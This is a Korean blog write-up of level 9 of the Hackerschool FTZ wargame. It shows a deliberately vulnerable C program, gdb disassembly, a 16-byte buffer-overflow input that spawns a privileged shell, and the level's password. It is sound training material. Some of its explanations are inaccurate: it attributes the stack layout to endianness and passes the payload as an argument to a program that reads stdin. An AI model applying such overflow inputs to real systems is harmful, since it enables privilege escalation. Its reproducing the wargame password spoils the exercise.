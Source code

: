 ```yaml
---
date: '2022-09-29'
before : '2022-09-28'
after : '2022-09-30'
title: '시스템 해킹(7) : 해커스쿨 FTZ 레벨 9'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

레벨 9 이후부터는 본격적으로 해킹 공격 기법에 관한 문제들이 나온다!

### 1. level 9
 
드디어 첫(!) BOF...라고하기엔 너무 간단하지만, BOF문제다! cat hint를 실행하면 실행파일 소스 코드가 나온다. 일단 코드를 살펴보자.


또한 이 파일은 **Level 10**의 권한을 가지고 있다.

```
main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}
```

buf2[10]과 buf[10]이라는 배열이 있는데, buf배열을 밑에 fgets함수에서 40개를 받는다.
즉 오버플로우가 가능하단 소리다. buf2배열의 첫 두문자가 "go"인 경우에 password를
준다고 하니, 정확히 buf2와 buf 배열의 거리가 얼마나 되나를 살펴봐야한다.


실행권한은 없으니 복사해서 test.c를 만든다음 실행파일로 만들어서 한번 gdb로
디버깅해보자. gdb는 리눅스의 어셈블리 디버거로, 활용하기 위해서 약간의 공부는 필요할 수 있다.


일단 set disassembly-flavor intel을 콘솔창에 입력하자.


disassemble (함수이름)을 하면 저 main함수가 시작될 때의 전체적인 어셈블리 코드를 확인해 볼 수 있다. 

```
0x08048420 <main+0>:    push   ebp
0x08048421 <main+1>:    mov    ebp,esp
0x08048423 <main+3>:    sub    esp,0x28
0x08048426 <main+6>:    and    esp,0xfffffff0
0x08048429 <main+9>:    mov    eax,0x0
0x0804842e <main+14>:   sub    esp,eax
0x08048430 <main+16>:   sub    esp,0xc
0x08048433 <main+19>:   push   0x8048554
0x08048438 <main+24>:   call   0x8048350 <printf>
0x0804843d <main+29>:   add    esp,0x10
0x08048440 <main+32>:   sub    esp,0x4
0x08048443 <main+35>:   push   ds:0x8049698
0x08048449 <main+41>:   push   0x28
0x0804844b <main+43>:   lea    eax,[ebp-40]
0x0804844e <main+46>:   push   eax
0x0804844f <main+47>:   call   0x8048320 <fgets>
0x08048454 <main+52>:   add    esp,0x10
0x08048457 <main+55>:   sub    esp,0x4
0x0804845a <main+58>:   push   0x2
0x0804845c <main+60>:   push   0x8048569
0x08048461 <main+65>:   lea    eax,[ebp-24]
0x08048464 <main+68>:   push   eax
```

대충 보면, lea가 배열 생성과 관련되어있다는걸 알 수있다. Linux 같은경우는 
little Endian을 사용하므로, 거꾸로 올라간다. 따라서 밑에 있는게 buf배열
위에 있는게 buf2배열이라고 유추할 수 있다. 


둘의 차는  40- 24이므로 
둘의 거리는 16이 된다. (원래는 10이어야하지만, 더미데이터 등의 이유로 6바이트가
추가된듯 하다.)


quit로종료하고, 16개의 문자열 + go를 입력한다.
```
./attackme AAAAAAAAAAAAAAAAgo
```
비밀번호 : interesting to hack!

---
## Source

- 해커스쿨 FTZ
- Me!